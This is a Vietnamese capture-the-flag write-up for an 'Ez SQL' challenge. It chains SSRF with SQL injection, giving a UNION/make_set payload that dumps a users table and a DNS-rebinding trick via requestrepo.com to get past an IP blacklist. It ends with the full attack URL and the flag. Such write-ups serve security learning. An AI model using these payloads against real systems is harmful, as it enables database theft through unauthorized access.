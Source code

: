 # Ez SQL

Bài này là SSRF + SQLi.

## SQLi

SQLi nằm ở `home.php`, và ở đây có 1 đoạn check ip:

```php
if ($_SERVER['REMOTE_ADDR'] !== "127.0.0.1") {
  die("<center>This is not a private ip</center>");
}
```

Mình tải source về build lại, xoá đoạn check phía trên đi và thực hiện SQLi trước. Đây là payload:

```sql
1 union select 1,make_set(1|4,`2`,`3`,`4`)from(select 1,2,3,4 union select * from users)a
```

Do không tìm được tên cột nên mình sử dụng `select 1,2,3,4 union select * from users` để tạo table mới từ table `users` với các cột có tên là `1`, `2`, `3` và `4` sau đó dùng `make_set` để ghép các cột lại với nhau thành 1 cột duy nhất.

Phần SQLi đã xong, việc còn lại cần làm là bypass SSRF.

![200](images/200.jpg)

## SSFR

SSRF nằm ở `index.php` và ở đây cũng có 1 đoạn check ip:

```php
function filter($url) {
	$black_lists = ['127.0.0.1', '0.0.0.0'];
	$url_parse = parse_url($url);
	$ip = gethostbyname($url_parse['host']);
    if (in_array($ip,$black_lists)) {
        return false;
    }
	return true;
}
```

Nếu hostname mình nhập vào có ip mà khác `127.0.0.1` và `0.0.0.0` thì `curl` sẽ được thực hiện. Lúc này mình cần 1 url có ip khác `127.0.0.1` để `curl` được thực hiện và có `REMOTE_ADDR` = `127.0.0.1` để SQLi được.

Ý tưởng của mình là sử dụng DNS Rebinding, tạo 1 url mà khi query đến nó sẽ ngẫu nhiên trỏ đến `127.0.0.1` hoặc một ip nào đó. Ở đây mình dùng [requestrepo.com](https://requestrepo.com) và config như sau:

![requestrepo_config](images/requestrepo_config.png)

Do nó sẽ trỏ ngẫu nhiên mà mình cần lần đầu tiên khi check `index.php` ip là `1.2.3.4` và lần sau tại `home.php` là `127.0.0.1`. Do đó cần request nhiều lần để thấy được flag.

Payload:

```url
http://meo.tg3xz1mm.requestrepo.com/home.php?id=1%20union%20select%201,make_set(1%7C4,%602%60,%603%60,%604%60)from(select%201,2,3,4%20union%20select%20*%20from%20users)a
```

Flag: `ISITDTU{w0w_SSRF_ch4in_SQLI_3Zzzz_h3he_!!!!}`

